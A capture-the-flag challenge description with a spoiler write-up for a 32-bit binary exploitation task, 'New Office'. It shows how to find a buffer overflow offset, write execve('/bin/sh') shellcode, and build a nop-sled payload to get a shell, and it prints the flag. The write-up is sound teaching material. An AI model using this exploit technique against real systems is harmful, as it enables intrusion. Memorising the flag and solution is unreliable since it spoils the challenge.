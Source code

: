 # New Office

## Authors

- @jame (Frank)

## Category

- Binary Exploit

## Description

We aren't using gets this time so good luck trying to execute a buffer overflow

`nc pwn.ctf.unswsecurity.com 5001`

## Difficulty

- Easy

## Points

50

## Files

- [new_office](_ctfd/files/new_office): binary to exploit

Try include a link to the file where possible (such as within a repo).

## Solution

<details>
<summary>Spoiler</summary>

### Idea

Use buffer overflow to redirect code execution!

### Walkthrough

As usual, a plug for LiveOverflow is due:

- [LiveOverflow's binary exploitation playlist](https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN)
  (Shall go into the exploits in MUCH more detail, is how @Sequeli learnt buffer overflows)

This challenge is similar to [Welcome to Skylight Cyber](/binary/Welcome-To-Skylight-Cyber/writeup.md), however the main thing is that we're not using gets anymore. But lets try a lot of input anyway, and we see that the program segfaults
  
```bash
python2 -c "print 'a' * 100" | ./new_office
# segmentation fault
```

Why did this happen?

Disassembling the binary, we see that while it uses fgets, the "push" instruction pushes an absurdly large number on the stack, larger than the buffer itself. This is _almost_ same as making a gets call directly since we can overwrite the stack and the return address in extension

![fgets, with an absurd buffer size](writeup-imgs/fgets.png)
```c
fgets(buffer, 0x1388)
```

Notice how the addresses are offsets (a very low number). This means that PIE (Position Independent Execution) is enabled. We can check this using pwntools:
```bash
checksec new_office
```
This also means that the addresses in the binaries keep changing and cannot be hardcoded.

But first, we need to find the offset to the return address. We can use a modified version of the solution from the welcome to the secsoc challenge to find the address
```py
from pwn import *
from subprocess import Popen, PIPE

for i in range(20, 100):
    test = b'a' * i
    
    # open a link to the program and execute
    prog = Popen('./new_office', stdin=PIPE, stdout=PIPE)
    prog.communicate(test)

    # Segfault
    if prog.returncode == -11:
        print(i)
        break
```

Here we get 62 again, the buffer size is the same.

The next problem is to find how to exploit the program. There's no `win` function, so the best thing to do is to try and open a shell, so we can grab the flag from the server.

Since we have a lot of space on the stack, we could make use of the space to create and execute our exploit. From `checksec` earlier, we see that the NX (Non-executable Stack) protection is turned off as well.

So we can choose our exploit to be shellcode-based. Shellcode is just machine code that the program can execute. It's simply inserting your instructions into a binary.

We can again use to generate the shellcode for us, we simply write the assembly for it. We essentially want to mock the `system()` syscall and pass it the string "/bin/sh" (or in hex: `0x2f62696e2f7368`). In C this would be:
```c
system("/bin/sh")
```
which would open a shell.

**Note:** We need to format /bin/sh to be in little endian format, and split it into two parts so that it can be pushed onto the stack. /bin/sh is actually padded to `//bin/sh` to make it 8 bytes so that it can be pushed onto the stack. This is a nice trick since executing `//bin/sh` is the same as executing `/bin/sh`

Here's the assembly to set up the registers properly for the syscall
```py
shellcode = asm(
'''
xor eax, eax
push eax

push 0x68732f2f
push 0x6e69622f
mov ebx, esp
xor ecx, ecx
mov edx, ecx

mov eax, 0xb
int 0x80
'''
)
```
Now we can jump to it. We're told the address of the buffer, so we can simply put the shellcode in the buffer and then jump to it

Finally, since aslr is turned on, if the address is not exactly at the start of our shellcode, then the exploit won't run. To avoid this, we can use something called a "nop sled". The `nop` (0x90) instruction does nothing, so we can put a ton of them before our shellcode to make sure that the shellcode will always execute in order. We can put an arbitrary number of `nop`s (say 500). The more the better.

So the payload is:
```py
buff_addr = (...) # get this from the program itself
payload = b"\x90"*62 + buff_addr + b"\x90"*500 + shellcode
```

And now we can automate all of this using pwntools. An example of which is in [the solve script in this repository](solve.py)


### Flag

`SKYLIGHT{3x3CuTe_0ff1cE_5TACK}`

</details>
